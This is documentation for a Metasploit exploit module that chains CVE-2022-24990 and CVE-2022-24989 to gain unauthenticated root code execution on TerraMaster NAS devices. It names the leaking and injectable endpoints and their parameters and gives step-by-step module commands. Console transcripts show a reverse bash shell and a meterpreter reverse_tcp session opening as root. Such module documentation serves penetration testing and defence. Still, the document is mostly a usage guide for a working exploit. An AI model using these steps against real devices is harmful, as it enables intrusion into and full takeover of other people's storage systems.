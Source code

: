 ## Vulnerable Application

This module combines [CVE-2022-24990: Leaking sensitive information](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-24990) and
[CVE-2022-24989: Authenticated remote code execution](https://www.redpacketsecurity.com/terramaster-tos-command-execution-cve-2022-24989/)
to achieve an unauthenticated RCE by exploiting vulnerable endpoint `api.php?mobile/webNasIPS` leaking sensitive information such as
admin password hash and mac address to achieve unauthenticated access and use the vulnerable endpoint `api.php?mobile/createRaid` with
`POST` parameters `raidtype` / `diskstring` to execute remote code as root on TerraMaster NAS devices.

All TerraMaster devices running TerraMaster Operating System (TOS) `4.2.29` or lower are vulnerable.

Installing a vulnerable test bed requires a TerraMaster NAS device that can run `TOS 4.x`
This module has been tested against a TerraMaster `F2-221` Model with the specifications listed below:

* TerraMaster F2-221
* CPU: `x86`
* TOS Version: `4.2.08`

## Verification Steps

1. `use exploit/linux/http/terramaster_unauth_rce_cve_2022_24990`
1. `set RHOSTS <TARGET HOSTS>`
1. `set RPORT <port>`
1. `set LHOST <attacker host ip>`
1. `set LPORT <attacker host port>`
1. `set TARGET <0-Unix command or 1-Linux Dropper>`
1. `exploit`
1. You should get a `bash` shell or `meterpreter` session depending on the `target` and `payload` settings.

## Options
No specific options.

## Scenarios

```
msf6 exploit(linux/http/terramaster_unauth_rce_cve_2022_24990) > info

       Name: TerraMaster TOS 4.2.29 or lower - Unauthenticated RCE chaining CVE-2022-24990 and CVE-2022-24989
     Module: exploit/linux/http/terramaster_unauth_rce_cve_2022_24990
   Platform: Unix, Linux
       Arch: cmd, php, x64, x86, aarch64
 Privileged: Yes
    License: Metasploit Framework License (BSD)
       Rank: Excellent
  Disclosed: 2022-03-07

Provided by:
  h00die-gr3y <h00die.gr3y@gmail.com>
  Octagon Networks
  0xf4n9x

Module side effects:
 ioc-in-logs
 artifacts-on-disk

Module stability:
 crash-safe

Module reliability:
 repeatable-session

Available targets:
      Id  Name
      --  ----
  =>  0   Unix Command
      1   Linux Dropper

Check supported:
  Yes

Basic options:
  Name       Current Setting  Required  Description
  ----       ---------------  --------  -----------
  Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
  RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.h
                                        tml
  RPORT      8181             yes       The target port (TCP)
  SSL        false            no        Negotiate SSL/TLS for outgoing connections
  SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
  TARGETURI  /                yes       Path to Terramaster Web console
  URIPATH                     no        The URI to use for this exploit (default is random)
  VHOST                       no        HTTP server virtual host


  When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

  Name     Current Setting  Required  Description
  ----     ---------------  --------  -----------
  SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0
                                      .0.0 to listen on all addresses.
  SRVPORT  8080             yes       The local port to listen on.

Payload information:

Description:
  This module exploits an unauthenticated remote code execution vulnerability in TerraMaster TOS 4.2.29
  and lower by chaining two existing vulnerabilities, CVE-2022-24990 "Leaking sensitive information"
  and CVE-2022-24989, "Authenticated remote code execution".
  Exploiting vulnerable endpoint `api.php?mobile/webNasIPS` leaking sensitive information such as admin password
  hash and mac address, the attacker can achieve unauthenticated access and use another vulnerable endpoint
  `api.php?mobile/createRaid` with POST parameters `raidtype` and `diskstring` to execute remote code as root
  on TerraMaster NAS devices.

References:
  https://nvd.nist.gov/vuln/detail/CVE-2022-24990
  https://nvd.nist.gov/vuln/detail/CVE-2022-24989
  https://octagon.net/blog/2022/03/07/cve-2022-24990-terrmaster-tos-unauthenticated-remote-command-execution-via-php-object-instantiation/
  https://github.com/0xf4n9x/CVE-2022-24990
  https://attackerkb.com/topics/h8YKVKx21t/cve-2022-24990


View the full module info with the info -d command.
```

### TerraMaster F2-221 TOS 4.2.08 - Unix Command `cmd/unix/reverse_bash` session
```
msf6 exploit(linux/http/terramaster_unauth_rce_cve_2022_24990) > set target 0
target => 0
msf6 exploit(linux/http/terramaster_unauth_rce_cve_2022_24990) > exploit

[*] Started reverse TCP handler on 192.168.10.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. TOS version is 4.2.08 and CPU architecture is X64.
[*] Executing Unix Command for cmd/unix/reverse_bash
[*] Command shell session 1 opened (192.168.10.1:4444 -> 192.168.10.2:54556) at 2023-06-10 12:31:22 +0000

uname -a
Linux TerrorMaster 4.13.16 SMP Mon Jun 10 14:32:13 CET 2023 x86_64 GNU/Linux
id
uid=0(root) gid=0(root) groups=0(root)
```
### TerraMaster F2-221 TOS 4.2.08 - Linux Dropper `linux/x64/meterpreter/reverse_tcp` session
```
msf6 exploit(linux/http/terramaster_unauth_rce_cve_2022_24990) > set target 1
target => 1
msf6 exploit(linux/http/terramaster_unauth_rce_cve_2022_24990) > exploit

[*] Started reverse TCP handler on 192.168.10.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. TOS version is 4.2.08 and CPU architecture is X64.
[*] Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp
[*] Sending stage (3045348 bytes) to 127.0.0.1
[*] Meterpreter session 2 opened (192.168.10.1:4444 -> 192.168.10.2:46174) at 2023-06-10 12:39:01 +0000
[*] Command Stager progress - 100.00% done (810/810 bytes)

meterpreter > sysinfo
Computer     : 192.168.10.2
OS           :  (Linux 4.13.16)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: root
meterpreter >
```

## Limitations
No limitations.
